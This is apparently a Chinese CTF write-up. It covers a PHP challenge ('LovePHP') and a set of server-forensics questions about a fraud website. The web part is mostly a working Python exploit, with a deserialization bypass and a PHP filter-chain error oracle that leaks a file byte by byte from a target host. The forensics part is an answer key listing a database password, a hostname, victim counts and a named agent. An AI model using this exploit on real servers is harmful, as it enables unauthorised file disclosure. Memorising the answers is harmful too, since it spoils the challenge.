









# WP
[Web&服务器取证.docx](https://www.yuque.com/attachments/yuque/0/2023/docx/25358086/1693576325831-0cec0998-1727-4163-9bde-bd468fb395e0.docx)
# Web
## LovePHP
传递如下参数绕过参数和wakeup限制
```http
?my[secret.flag=C:8:"Saferman":0:{}&secret=Payload
```
参考下面这篇文章通过Filter打侧信道，直接小改一下脚本<br />[Webの侧信道初步认识 | Boogiepop Doesn’t Laugh](https://boogipop.com/2023/05/08/Web%E4%BE%A7%E4%BF%A1%E9%81%93%E5%88%9D%E6%AD%A5%E8%AE%A4%E8%AF%86/)
```python
import requests
import sys
import time
from base64 import b64decode

"""
THE GRAND IDEA:
We can use PHP memory limit as an error oracle. Repeatedly applying the convert.iconv.L1.UCS-4LE
filter will blow up the string length by 4x every time it is used, which will quickly cause
500 error if and only if the string is non empty. So we now have an oracle that tells us if
the string is empty.

THE GRAND IDEA 2:
The dechunk filter is interesting.
https://github.com/php/php-src/blob/01b3fc03c30c6cb85038250bb5640be3a09c6a32/ext/standard/filters.c#L1724
It looks like it was implemented for something http related, but for our purposes, the interesting
behavior is that if the string contains no newlines, it will wipe the entire string if and only if
the string starts with A-Fa-f0-9, otherwise it will leave it untouched. This works perfect with our
above oracle! In fact we can verify that since the flag starts with D that the filter chain

dechunk|convert.iconv.L1.UCS-4LE|convert.iconv.L1.UCS-4LE|[...]|convert.iconv.L1.UCS-4LE

does not cause a 500 error.

THE REST:
So now we can verify if the first character is in A-Fa-f0-9. The rest of the challenge is a descent
into madness trying to figure out ways to:
- somehow get other characters not at the start of the flag file to the front
- detect more precisely which character is at the front
"""

def join(*x):
	return '|'.join(x)

def err(s):
	print(s)
	raise ValueError

def req(s):
	# time.sleep(1)
	# data = {
	# 	'0': f'php://filter/{s}/resource=/flag'
	# }
	status = requests.get('http://123.57.73.24:41555/?my[secret.flag=C:8:"Saferman":0:{}&secret=' + f'php://filter/{s}/resource=/flag').status_code
	# time.sleep(1)
	return  status == 500

"""
Step 1:
The second step of our exploit only works under two conditions:
- String only contains a-zA-Z0-9
- String ends with two equals signs

base64-encoding the flag file twice takes care of the first condition.

We don't know the length of the flag file, so we can't be sure that it will end with two equals
signs.

Repeated application of the convert.quoted-printable-encode will only consume additional
memory if the base64 ends with equals signs, so that's what we are going to use as an oracle here.
If the double-base64 does not end with two equals signs, we will add junk data to the start of the
flag with convert.iconv..CSISO2022KR until it does.
"""

blow_up_enc = join(*['convert.quoted-printable-encode']*1000)
blow_up_utf32 = 'convert.iconv.L1.UCS-4LE'
blow_up_inf = join(*[blow_up_utf32]*50)

header = 'convert.base64-encode|convert.base64-encode'

# Start get baseline blowup
print('Calculating blowup')
baseline_blowup = 0
for n in range(100):
	payload = join(*[blow_up_utf32]*n)
	if req(f'{header}|{payload}'):
		baseline_blowup = n
		break
else:
	err('something wrong')

print(f'baseline blowup is {baseline_blowup}')

trailer = join(*[blow_up_utf32]*(baseline_blowup-1))

assert req(f'{header}|{trailer}') == False

print('detecting equals')
j = [
	req(f'convert.base64-encode|convert.base64-encode|{blow_up_enc}|{trailer}'),
	req(f'convert.base64-encode|convert.iconv..CSISO2022KR|convert.base64-encode{blow_up_enc}|{trailer}'),
	req(f'convert.base64-encode|convert.iconv..CSISO2022KR|convert.iconv..CSISO2022KR|convert.base64-encode|{blow_up_enc}|{trailer}')
]
print(j)
if sum(j) != 2:
	err('something wrong')
if j[0] == False:
	header = f'convert.base64-encode|convert.iconv..CSISO2022KR|convert.base64-encode'
elif j[1] == False:
	header = f'convert.base64-encode|convert.iconv..CSISO2022KR|convert.iconv..CSISO2022KRconvert.base64-encode'
elif j[2] == False:
	header = f'convert.base64-encode|convert.base64-encode'
else:
	err('something wrong')
print(f'j: {j}')
print(f'header: {header}')

"""
Step two:
Now we have something of the form
[a-zA-Z0-9 things]==

Here the pain begins. For a long time I was trying to find something that would allow me to strip
successive characters from the start of the string to access every character. Maybe something like
that exists but I couldn't find it. However, if you play around with filter combinations you notice
there are filters that *swap* characters:

convert.iconv.CSUNICODE.UCS-2BE, which I call r2, flips every pair of characters in a string:
abcdefgh -> badcfehg

convert.iconv.UCS-4LE.10646-1:1993, which I call r4, reverses every chunk of four characters:
abcdefgh -> dcbahgfe

This allows us to access the first four characters of the string. Can we do better? It turns out
YES, we can! Turns out that convert.iconv.CSUNICODE.CSUNICODE appends <0xff><0xfe> to the start of
the string:

abcdefgh -> <0xff><0xfe>abcdefgh

The idea being that if we now use the r4 gadget, we get something like:
ba<0xfe><0xff>fedc

And then if we apply a convert.base64-decode|convert.base64-encode, it removes the invalid
<0xfe><0xff> to get:
bafedc

And then apply the r4 again, we have swapped the f and e to the front, which were the 5th and 6th
characters of the string. There's only one problem: our r4 gadget requires that the string length
is a multiple of 4. The original base64 string will be a multiple of four by definition, so when
we apply convert.iconv.CSUNICODE.CSUNICODE it will be two more than a multiple of four, which is no
good for our r4 gadget. This is where the double equals we required in step 1 comes in! Because it
turns out, if we apply the filter
convert.quoted-printable-encode|convert.quoted-printable-encode|convert.iconv.L1.utf7|convert.iconv.L1.utf7|convert.iconv.L1.utf7|convert.iconv.L1.utf7

It will turn the == into:
+---AD0-3D3D+---AD0-3D3D

And this is magic, because this corrects such that when we apply the
convert.iconv.CSUNICODE.CSUNICODE filter the resuting string is exactly a multiple of four!

Let's recap. We have a string like:
abcdefghij==

Apply the convert.quoted-printable-encode + convert.iconv.L1.utf7:
abcdefghij+---AD0-3D3D+---AD0-3D3D

Apply convert.iconv.CSUNICODE.CSUNICODE:
<0xff><0xfe>abcdefghij+---AD0-3D3D+---AD0-3D3D

Apply r4 gadget:
ba<0xfe><0xff>fedcjihg---+-0DAD3D3---+-0DAD3D3

Apply base64-decode | base64-encode, so the '-' and high bytes will disappear:
bafedcjihg+0DAD3D3+0DAD3Dw==

Then apply r4 once more:
efabijcd0+gh3DAD0+3D3DAD==wD

And here's the cute part: not only have we now accessed the 5th and 6th chars of the string, but
the string still has two equals signs in it, so we can reapply the technique as many times as we
want, to access all the characters in the string ;)
"""

flip = "convert.quoted-printable-encode|convert.quoted-printable-encode|convert.iconv.L1.utf7|convert.iconv.L1.utf7|convert.iconv.L1.utf7|convert.iconv.L1.utf7|convert.iconv.CSUNICODE.CSUNICODE|convert.iconv.UCS-4LE.10646-1:1993|convert.base64-decode|convert.base64-encode"
r2 = "convert.iconv.CSUNICODE.UCS-2BE"
r4 = "convert.iconv.UCS-4LE.10646-1:1993"

def get_nth(n):
	global flip, r2, r4
	o = []
	chunk = n // 2
	if chunk % 2 == 1: o.append(r4)
	o.extend([flip, r4] * (chunk // 2))
	if (n % 2 == 1) ^ (chunk % 2 == 1): o.append(r2)
	return join(*o)

"""
Step 3:
This is the longest but actually easiest part. We can use dechunk oracle to figure out if the first
char is 0-9A-Fa-f. So it's just a matter of finding filters which translate to or from those
chars. rot13 and string lower are helpful. There are probably a million ways to do this bit but
I just bruteforced every combination of iconv filters to find these.

Numbers are a bit trickier because iconv doesn't tend to touch them.
In the CTF you coud porbably just guess from there once you have the letters. But if you actually 
want a full leak you can base64 encode a third time and use the first two letters of the resulting
string to figure out which number it is.
"""

rot1 = 'convert.iconv.437.CP930'
be = 'convert.quoted-printable-encode|convert.iconv..UTF7|convert.base64-decode|convert.base64-encode'
o = ''

def find_letter(prefix):
	if not req(f'{prefix}|dechunk|{blow_up_inf}'):
		# a-f A-F 0-9
		if not req(f'{prefix}|{rot1}|dechunk|{blow_up_inf}'):
			# a-e
			for n in range(5):
				if req(f'{prefix}|' + f'{rot1}|{be}|'*(n+1) + f'{rot1}|dechunk|{blow_up_inf}'):
					return 'edcba'[n]
					break
			else:
				err('something wrong')
		elif not req(f'{prefix}|string.tolower|{rot1}|dechunk|{blow_up_inf}'):
			# A-E
			for n in range(5):
				if req(f'{prefix}|string.tolower|' + f'{rot1}|{be}|'*(n+1) + f'{rot1}|dechunk|{blow_up_inf}'):
					return 'EDCBA'[n]
					break
			else:
				err('something wrong')
		elif not req(f'{prefix}|convert.iconv.CSISO5427CYRILLIC.855|dechunk|{blow_up_inf}'):
			return '*'
		elif not req(f'{prefix}|convert.iconv.CP1390.CSIBM932|dechunk|{blow_up_inf}'):
			# f
			return 'f'
		elif not req(f'{prefix}|string.tolower|convert.iconv.CP1390.CSIBM932|dechunk|{blow_up_inf}'):
			# F
			return 'F'
		else:
			err('something wrong')
	elif not req(f'{prefix}|string.rot13|dechunk|{blow_up_inf}'):
		# n-s N-S
		if not req(f'{prefix}|string.rot13|{rot1}|dechunk|{blow_up_inf}'):
			# n-r
			for n in range(5):
				if req(f'{prefix}|string.rot13|' + f'{rot1}|{be}|'*(n+1) + f'{rot1}|dechunk|{blow_up_inf}'):
					return 'rqpon'[n]
					break
			else:
				err('something wrong')
		elif not req(f'{prefix}|string.rot13|string.tolower|{rot1}|dechunk|{blow_up_inf}'):
			# N-R
			for n in range(5):
				if req(f'{prefix}|string.rot13|string.tolower|' + f'{rot1}|{be}|'*(n+1) + f'{rot1}|dechunk|{blow_up_inf}'):
					return 'RQPON'[n]
					break
			else:
				err('something wrong')
		elif not req(f'{prefix}|string.rot13|convert.iconv.CP1390.CSIBM932|dechunk|{blow_up_inf}'):
			# s
			return 's'
		elif not req(f'{prefix}|string.rot13|string.tolower|convert.iconv.CP1390.CSIBM932|dechunk|{blow_up_inf}'):
			# S
			return 'S'
		else:
			err('something wrong')
	elif not req(f'{prefix}|{rot1}|string.rot13|dechunk|{blow_up_inf}'):
		# i j k
		if req(f'{prefix}|{rot1}|string.rot13|{be}|{rot1}|dechunk|{blow_up_inf}'):
			return 'k'
		elif req(f'{prefix}|{rot1}|string.rot13|{be}|{rot1}|{be}|{rot1}|dechunk|{blow_up_inf}'):
			return 'j'
		elif req(f'{prefix}|{rot1}|string.rot13|{be}|{rot1}|{be}|{rot1}|{be}|{rot1}|dechunk|{blow_up_inf}'):
			return 'i'
		else:
			err('something wrong')
	elif not req(f'{prefix}|string.tolower|{rot1}|string.rot13|dechunk|{blow_up_inf}'):
		# I J K
		if req(f'{prefix}|string.tolower|{rot1}|string.rot13|{be}|{rot1}|dechunk|{blow_up_inf}'):
			return 'K'
		elif req(f'{prefix}|string.tolower|{rot1}|string.rot13|{be}|{rot1}|{be}|{rot1}|dechunk|{blow_up_inf}'):
			return 'J'
		elif req(f'{prefix}|string.tolower|{rot1}|string.rot13|{be}|{rot1}|{be}|{rot1}|{be}|{rot1}|dechunk|{blow_up_inf}'):
			return 'I'
		else:
			err('something wrong')
	elif not req(f'{prefix}|string.rot13|{rot1}|string.rot13|dechunk|{blow_up_inf}'):
		# v w x
		if req(f'{prefix}|string.rot13|{rot1}|string.rot13|{be}|{rot1}|dechunk|{blow_up_inf}'):
			return 'x'
		elif req(f'{prefix}|string.rot13|{rot1}|string.rot13|{be}|{rot1}|{be}|{rot1}|dechunk|{blow_up_inf}'):
			return 'w'
		elif req(f'{prefix}|string.rot13|{rot1}|string.rot13|{be}|{rot1}|{be}|{rot1}|{be}|{rot1}|dechunk|{blow_up_inf}'):
			return 'v'
		else:
			err('something wrong')
	elif not req(f'{prefix}|string.tolower|string.rot13|{rot1}|string.rot13|dechunk|{blow_up_inf}'):
		# V W X
		if req(f'{prefix}|string.tolower|string.rot13|{rot1}|string.rot13|{be}|{rot1}|dechunk|{blow_up_inf}'):
			return 'X'
		elif req(f'{prefix}|string.tolower|string.rot13|{rot1}|string.rot13|{be}|{rot1}|{be}|{rot1}|dechunk|{blow_up_inf}'):
			return 'W'
		elif req(f'{prefix}|string.tolower|string.rot13|{rot1}|string.rot13|{be}|{rot1}|{be}|{rot1}|{be}|{rot1}|dechunk|{blow_up_inf}'):
			return 'V'
		else:
			err('something wrong')
	elif not req(f'{prefix}|convert.iconv.CP285.CP280|string.rot13|dechunk|{blow_up_inf}'):
		# Z
		return 'Z'
	elif not req(f'{prefix}|string.toupper|convert.iconv.CP285.CP280|string.rot13|dechunk|{blow_up_inf}'):
		# z
		return 'z'
	elif not req(f'{prefix}|string.rot13|convert.iconv.CP285.CP280|string.rot13|dechunk|{blow_up_inf}'):
		# M
		return 'M'
	elif not req(f'{prefix}|string.rot13|string.toupper|convert.iconv.CP285.CP280|string.rot13|dechunk|{blow_up_inf}'):
		# m
		return 'm'
	elif not req(f'{prefix}|convert.iconv.CP273.CP1122|string.rot13|dechunk|{blow_up_inf}'):
		# y
		return 'y'
	elif not req(f'{prefix}|string.tolower|convert.iconv.CP273.CP1122|string.rot13|dechunk|{blow_up_inf}'):
		# Y
		return 'Y'
	elif not req(f'{prefix}|string.rot13|convert.iconv.CP273.CP1122|string.rot13|dechunk|{blow_up_inf}'):
		# l
		return 'l'
	elif not req(f'{prefix}|string.tolower|string.rot13|convert.iconv.CP273.CP1122|string.rot13|dechunk|{blow_up_inf}'):
		# L
		return 'L'
	elif not req(f'{prefix}|convert.iconv.500.1026|string.tolower|convert.iconv.437.CP930|string.rot13|dechunk|{blow_up_inf}'):
		# h
		return 'h'
	elif not req(f'{prefix}|string.tolower|convert.iconv.500.1026|string.tolower|convert.iconv.437.CP930|string.rot13|dechunk|{blow_up_inf}'):
		# H
		return 'H'
	elif not req(f'{prefix}|string.rot13|convert.iconv.500.1026|string.tolower|convert.iconv.437.CP930|string.rot13|dechunk|{blow_up_inf}'):
		# u
		return 'u'
	elif not req(f'{prefix}|string.rot13|string.tolower|convert.iconv.500.1026|string.tolower|convert.iconv.437.CP930|string.rot13|dechunk|{blow_up_inf}'):
		# U
		return 'U'
	elif not req(f'{prefix}|convert.iconv.CP1390.CSIBM932|dechunk|{blow_up_inf}'):
		# g
		return 'g'
	elif not req(f'{prefix}|string.tolower|convert.iconv.CP1390.CSIBM932|dechunk|{blow_up_inf}'):
		# G
		return 'G'
	elif not req(f'{prefix}|string.rot13|convert.iconv.CP1390.CSIBM932|dechunk|{blow_up_inf}'):
		# t
		return 't'
	elif not req(f'{prefix}|string.rot13|string.tolower|convert.iconv.CP1390.CSIBM932|dechunk|{blow_up_inf}'):
		# T
		return 'T'
	else:
		err('something wrong')

print()
for i in range(100):
	prefix = f'{header}|{get_nth(i)}'
	letter = find_letter(prefix)
	# it's a number! check base64
	if letter == '*':
		prefix = f'{header}|{get_nth(i)}|convert.base64-encode'
		s = find_letter(prefix)
		if s == 'M':
			# 0 - 3
			prefix = f'{header}|{get_nth(i)}|convert.base64-encode|{r2}'
			ss = find_letter(prefix)
			if ss in 'CDEFGH':
				letter = '0'
			elif ss in 'STUVWX':
				letter = '1'
			elif ss in 'ijklmn':
				letter = '2'
			elif ss in 'yz*':
				letter = '3'
			else:
				err(f'bad num ({ss})')
		elif s == 'N':
			# 4 - 7
			prefix = f'{header}|{get_nth(i)}|convert.base64-encode|{r2}'
			ss = find_letter(prefix)
			if ss in 'CDEFGH':
				letter = '4'
			elif ss in 'STUVWX':
				letter = '5'
			elif ss in 'ijklmn':
				letter = '6'
			elif ss in 'yz*':
				letter = '7'
			else:
				err(f'bad num ({ss})')
		elif s == 'O':
			# 8 - 9
			prefix = f'{header}|{get_nth(i)}|convert.base64-encode|{r2}'
			ss = find_letter(prefix)
			if ss in 'CDEFGH':
				letter = '8'
			elif ss in 'STUVWX':
				letter = '9'
			else:
				err(f'bad num ({ss})')
		else:
			err('wtf')

	print(end=letter)
	o += letter
	sys.stdout.flush()

"""
We are done!! :)
"""

print()
d = b64decode(o.encode() + b'=' * 4)
# remove KR padding
d = d.replace(b'$)C',b'')
print(b64decode(d))
```

# 取证
## 服务器取证
#### 29【服务器取证】分析涉案服务器，请给出涉案服务器的内核版本？[答案格式：xx.xxx-xxx.xx.xx]
3.10.0-957.el7.x86_64<br />
#### 30 【服务器取证】分析涉案服务器，请给出MySQL数据库的root账号密码？[答案格式：Admin123]
ff1d923939ca2dcf<br />
#### 31 【服务器取证】分析涉案服务器，请给出涉案网站RDS数据库地址？[答题格式: xx-xx.xx.xx.xx.xx]
pc-uf6mmj68r91f78hkj.rwlb.rds.aliyuncs.com<br />
#### 32 【服务器取证】请给出涉网网站数据库版本号? [答题格式: 5.6.00]
5.7.40<br />
#### 34 【服务器取证】请给出涉案网站后台启用的超级管理员?[答题格式:abc]
admin<br />
#### 35 【服务器取证】投资项目“贵州六盘水市风力发电基建工程”的日化收益为？[答题格式:1.00%]
4.00%<br />
#### 37 【服务器取证】分析涉案网站数据库或者后台VIP2的会员有多少个[答案格式:100]
20<br />
#### 38 【服务器取证】分析涉案网站数据库的用户表中账户余额大于零且银行卡开户行归属于上海市的潜在受害人的数量为[答题格式:8]
2
#### 40 【服务器取证】分析涉案网站数据库或者后台受害人上线在平台内共有下线多少人？[答题格式:123]
17<br />
#### 41 【服务器取证】分析涉案网站数据库或者后台网站内下线大于2的代理有多少个？[答题格式:10]
60<br />
#### 42 【服务器取证】分析涉案网站数据库或者后台网站内下线最多的代理真实名字为[答题格式:张三]
骆潇原<br /><br />
#### 43 【服务器取证】分析涉案网站数据库或者后台流水明细，本网站总共盈利多少钱[答题格式:10,000.00]
15,078,796.38<br /><br /><br />
